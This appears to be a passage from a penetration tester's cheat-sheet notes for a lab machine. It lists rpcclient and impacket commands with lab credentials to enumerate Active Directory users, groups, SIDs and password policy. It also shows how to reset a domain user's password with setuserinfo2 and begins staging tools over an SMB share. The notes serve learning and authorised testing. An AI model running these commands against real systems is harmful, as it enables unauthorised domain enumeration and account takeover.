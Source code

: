 		rpcclient -U 'hazard%stealth1agent' 10.10.10.149

		enumprivs
		srvinfo

- Enum AD

		enumdomusers
		enumdomgroups

		queryuser 0x499
		querygroup 0x299
		queryusergroups 0x2a2
		querygroupmem 0xa29

		querydominfo
		querydispinfo

		getdompwinfo
		getusrdompwinfo 0x44f

- Get users sids

		lsaenumsid
		lookupsids S-1-5-21-2000478354-1708537768-1957994488-501
		lookupnames Administrator

- Change user password
https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html

		setuserinfo2 ima-domainadmin 23 'ASDqwe123'

	If it doesn't work, maybe check -K attribute when connecting to RPC

## Enum RPC with IMPACKET - Lookupsid.py (sid brute or rid brute force)

Get sids from the remote host. (AD and local). Same as rpcclient - lsaenumsid but automatic. (need creds)

	lookupsid.py 'hazard:stealth1agent'@10.10.10.149

# SYSTEM Enumeration
## Upload tools with IMPACKET - Smb Server

- Create a dir to store the files to share.
- Copy files in the dir.
- Start the server

		impacket-smberver gserv $(pwd) -smb2support -user ghost -password ghost

- On the windows machine :

		- Store the password in a variable

		$pass = convertto-securestring 'ghost' -AsPlainText -Force
		$pass (to check the var)
